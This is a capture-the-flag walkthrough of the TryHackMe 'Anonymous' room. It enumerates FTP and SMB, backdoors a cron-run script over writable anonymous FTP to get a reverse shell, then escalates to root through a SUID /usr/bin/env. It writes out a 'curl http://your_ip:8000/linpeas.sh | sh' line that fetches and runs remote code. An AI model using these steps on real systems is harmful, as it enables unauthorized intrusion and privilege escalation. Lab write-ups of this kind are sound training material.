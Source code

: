 # This is a Writeup for the Room Anonymous on http://tryhackme.com 

## Enumeration

####Nmap

First we use nmap to see which ports are open and which services are running on them.

[![https://imgur.com/3KHpnMu.png](https://imgur.com/3KHpnMu.png)](https://imgur.com/3KHpnMu.png)

The first thing that catches our eye is the possibility to log into FTP anonymously which also hints to the room name so lets try that.

[![https://imgur.com/NSv0ZJ1.png](https://imgur.com/NSv0ZJ1.png)](https://imgur.com/NSv0ZJ1.png)

Lets discover which files we can find on the ftp server:

[![https://imgur.com/IyxL5jx.png](https://imgur.com/IyxL5jx.png)](https://imgur.com/IyxL5jx.png)

and use the get command to download the files.

The only interesting file we found is this bash script:

![Imgur](https://i.imgur.com/FS6sPPw.png) 

i am sure we can exploit it but lets first explore other options, we will find out later on.

Lets try to enumerate the SMB shares on Port 139 and 445

For this we can use the tool Enum4Linux which is pretty handy.

The usage is straight forward: 
enum4linux targetIP

We found a SMB share called pics.

![Imgur](https://i.imgur.com/ayu97kS.png)

Lets try to loginto that with the smbclient.

You can do that with the command:
smbclient \\\\targetip\\share -u anonymous
and no password.
There are only 2 pictures on the smbshare so we go back and explore the bash script in more detail.

It looks like a cronjob, so lets try if we can not only download but also upload files to ftp?

It works! 

So our next step are the following:
Download the clean.sh script, 

hide a command for a reverseshell inside 
(Place to find a reverseshell https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

[![https://imgur.com/MYn1gRG.png](https://imgur.com/MYn1gRG.png)](https://imgur.com/MYn1gRG.png)

and replace the one on the ftp server with ours.

[![https://imgur.com/od1He2e.png](https://imgur.com/od1He2e.png)](https://imgur.com/od1He2e.png)

Now we only need to setup a nc listener and wait a bit, we are in!

[![https://imgur.com/cr43x7b.png](https://imgur.com/cr43x7b.png)](https://imgur.com/cr43x7b.png)

First lets get a better shell and then escalate our privileges!

We can use python for that: python -c 'import pty; pty.spawn("/bin/bash")'

##Privilege Escalation

Lets make our life easier by setting up a http server on my host machine and curl linpeas.sh on the target.

[![https://imgur.com/32WBOx6.png](https://imgur.com/32WBOx6.png)](https://imgur.com/32WBOx6.png)

With the command:

curl http://your_ip:8000/linpeas.sh | sh you can get linpeas.sh and execute it.

(Of course you need to download it first https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

We find that /usr/bin/env has the SUID binary bit set so we can check that on GTFOBINs (https://gtfobins.github.io/)

[![https://imgur.com/QhNXV9u.png](https://imgur.com/QhNXV9u.png)](https://imgur.com/QhNXV9u.png)

[![https://imgur.com/LwpJgWs.png](https://imgur.com/LwpJgWs.png)](https://imgur.com/LwpJgWs.png)

Now we can abuse it to escalate.

[![https://imgur.com/RinrpKl.png](https://imgur.com/RinrpKl.png)](https://imgur.com/RinrpKl.png)

In hindsight linpeas was maybe a bit overkill we could have also checked for SUID's manually with:

find / -perm /4000 -type f 2>/dev/null

Thank you for reading :)
